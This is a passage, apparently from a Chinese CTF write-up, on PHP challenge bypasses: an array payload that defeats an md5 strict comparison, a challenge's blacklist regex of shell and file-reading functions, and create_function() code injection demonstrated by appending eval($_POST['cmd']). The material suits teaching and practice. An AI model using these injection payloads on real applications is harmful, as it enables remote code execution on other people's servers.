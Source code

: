 很常见的强比较，类似与md5，主要有两种方法，数组绕过和强碰撞。这儿利用数组

```
sh%61na[]=1&p%61sswd[]=2
```

### 7.create_function()注入

```
if(preg_match('/^[a-z0-9]*$/isD', $code) || 
preg_match('/fil|cat|more|tail|tac|less|head|nl|tailf|ass|eval|sort|shell|ob|start|mail|\`|\{|\%|x|\&|\$|\*|\||\<|\"|\'|\=|\?|sou|show|cont|high|reverse|flip|rand|scan|chr|local|sess|id|source|arra|head|light|print|echo|read|inc|flag|1f|info|bin|hex|oct|pi|con|rot|input|\.|log|\^/i', $arg) ) { 
    die("<br />Neeeeee~! I have disabled all dangerous functions! You can't get my flag =w="); 
} else { 
    include "flag.php";
    $code('', $arg); //此处存在create_function()注入
} ?>
```

create_function()注入原理：

create_function()函数有两个参数$args和$code，用于创建一个lambda样式的函数，首先可以用create_function()创建一个简单函数

```php
<?php
$afunc = create_function('$a, $b','return ($a+$b);');
echo $afunc(1,2);
//输出3
?
```

以上的函数等价于

```php
<?php
function func($a,$b)
{
	return $a+$b;
}
echo func(1,2);
//输出3
```

但由于$code参数可控，可能会存在代码注入

```php
<?php
$Func = create_function('$a, $b', 'return($a+$b);}eval($_POST['cmd']);//');

function Func($a, $b)
{
	return $a+$b;
}
eval($_POST['cmd']);//}
?>
```
